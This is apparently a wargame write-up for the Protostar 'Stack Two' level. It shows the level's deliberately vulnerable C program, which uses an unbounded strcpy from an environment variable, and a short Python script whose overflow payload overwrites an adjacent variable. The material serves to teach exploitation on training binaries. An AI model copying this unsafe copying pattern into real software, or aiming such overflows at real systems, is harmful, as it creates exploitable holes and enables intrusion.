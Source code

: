 # Stack Two

## Description

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Exploit script

```python
from os import system

payload =  "A"*64
payload += "\x0a\x0d\x0a\x0d"

system("export GREENIE=\"" + payload + "\" ; ./stack2")
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>